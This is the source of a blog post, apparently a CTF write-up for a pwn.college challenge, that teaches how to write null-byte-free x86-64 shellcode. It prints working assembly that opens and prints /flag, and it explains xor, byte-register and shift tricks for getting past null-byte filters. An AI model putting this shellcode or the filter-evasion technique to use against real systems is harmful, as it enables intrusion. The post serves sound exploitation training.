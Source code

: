 ```yaml
---
layout: post
title: Writing a null byte free shellcode
date: 2025-02-21 00:13:37 +0300
description: 
img: removingnullbytes/cover_nullbytes.png
fig-caption: 
tags:
  - ctf
---
```

*When writing the assembly to create a shellcode, normally we face challenges like having the need to create a null byte free one. This post will show you the principle to remove null bytes in your code without using any tools.*

# TL;DR;
- Avoid using instructions without the exact amount of bytes you want to manipulate, because widening instructions will produce  null bytes to (e.g.) put a 8-bit operand into a 64-bit register.
- Do `xor rax, rax` instead of `mov rax, 0`
- Perform shift left operations for non 8-bit multiple numbers.

# Writing a simple shellcode to retrieve data from "/flag"
There are some CTF challenges out there that need you to send some shellcode in order to read the flag. I will use *[pwn.college](https://pwn.college)* example to make things easy to understand.

The challenge itself asks us to do a simple thing: input a shellcode to read the contents of the flag in "**/flag**", but the program would filter out all the null bytes present in the shellcode and execute it. 

Let's write some code to do it!

*Shellcode to read contents of "/flag"*
```assembly
.global _start
_start:
.intel_syntax noprefix

; syscall for open(/flag)
mov rax, 2
mov rbx, 0x67616c662f
push rbx
mov rdi, rsp
mov rsi, 2
mov rdx, 0
syscall

; syscall for sendfile and print to stdout
mov rsi, rax
mov rdi, 1
mov rdx, 0
mov r10, 64
mov rax, 40
syscall
```

After compiling it, let's see the bytecode of it

![](../assets/img/removingnullbytes/Pasted%20image%2020250221103405.png)
*Shellcode bytecode*

See the amount of null bytes produced? Normally programs would block (or filter) them because they are normally very problematic for the program functions (e.g. The null byte "**\\0**" is the delimiter for the end of a string in *strlen()*). Since the program just filter the null bytes out and execute it, it would break the code if we let it this way.

This is due to the amount of widening functions present, widening instructions will produce null bytes to (e.g.) put a 8-bit operand into a 64-bit register, like using `mov rax, 1` will literally move `00000001` value into the *RAX* register, and all those zeros will be present in the program bytes.

How do we circumvent that? Changing widening functions to exact size operations.

# Breaking down instructions

Let's analyze each step of the shellcode and change it for something without the null bytes, this will make you understand the principle behind the optimization.

> Below each code block, pay attention on how the null byte free code won't have the 00's present. 

## *mov rax, 2*
In this line we are preparing *RAX* for the *open()* syscall.

```c
mov rax, 2 
```
*Bytecode produced: 48C7C002**000000***

Like said before, this will basically move `00000002` into the *RAX* register. To change this to a shorter operation, we could perform a *XOR* operation in the *RAX* register, because perfoming a *XOR* operation using the same values will always result in 0, so we can empty the register fully. Then add `2` to the *AL* register, essentially moving a byte sized `02` into the register, avoiding all those zeros, and creating a null byte free bytecode.

```c
xor rax, rax
mov al, 2
```
*Bytecode produced: 4831C0B002*
## *mov rbx, 0x67616c662f*
In this line we are moving the "**/flag**" string to the register.

The reason behind the issue with this, is the same as before, moving a 5 byte value using a 8 byte operation, that will essentially produce 3 null bytes. 

```c
mov rbx, 0x67616c662f
```
*Bytecode produced: 48BB2F666C6167**000000***

Since we do not have a specific 5 byte instruction/register for this, there is another option:
- Performing a 4 byte (DWORD) operation to put 4 bytes of the value;
- Shift 8 bits (a byte) to the left;
- Fill the remaining byte with the byte instruction;

Let's see the code

```c
mov ebx, 0x67616c66
shl rbx, 8
mov bl, 0x2f
```
*Bytecode produced: BB666C616748C1E308B32F*

So we moved the first part of `0x67616c662f`, which is `0x67616c66`, to a 32-bit register *EBX*. Then we moved 8 bits to the left, and moved `0x2f` to the *BL* register, performing exact sized operations.

> With this same technique, supposing that you NEED a null byte to be placed in between a value, you could shift 16-bits (2 bytes) to the left, and fill the remaining byte, leaving a null byte in the register, but not present in the shellcode!
> 
> Like
```
mov ax, 0xcafe
shl rax, 16
mov al, 0xff
```
> Would result in a `0xcafe00ff` succesfully.

## *mov rdi, 1*
This is an alternative to the `mov rax, 2` presented before. Since we also could perform a *XOR* operation and do `mov dil, 1`, is also possible to *XOR* the *RDI* register and *inc rdi* to add 1 to the register.

```c
mov rdi, 1
```
*Bytecode produced: 48C7C701**000000***

```c
xor rdi, rdi
inc rdi
```
*Bytecode produced: 4831FF48FFC7*

# Putting the pieces together
With all things we already saw, performing all the changes to the code, the result is the final code presented:

*Final shellcode*
```asm
.global _start
_start:
        .intel_syntax noprefix
	    
	    ; syscall for open(/flag)
        xor rax, rax
        mov al, 2
        xor rbx, rbx 
        mov ebx, 0x67616c66
        shl rbx, 8
        mov bl, 0x2f
        push rbx
        mov rdi, rsp
        xor rsi,rsi
        mov sil, 2
        xor rdx, rdx
        syscall
        
	    ; syscall for sendfile and print to stdout
        mov rsi, rax
        xor rdi, rdi
        inc rdi
        xor rdx, rdx
        xor r10, r10
        mov r10b, 64
        xor rax, rax
        mov al, 40
        syscall
```

Now if we analyze the shellcode, we managed to remove all the null bytes we had before and even make the code smaller!

![](../assets/img/removingnullbytes/Pasted%20image%2020250221103732.png)
*Final shellcode bytecode*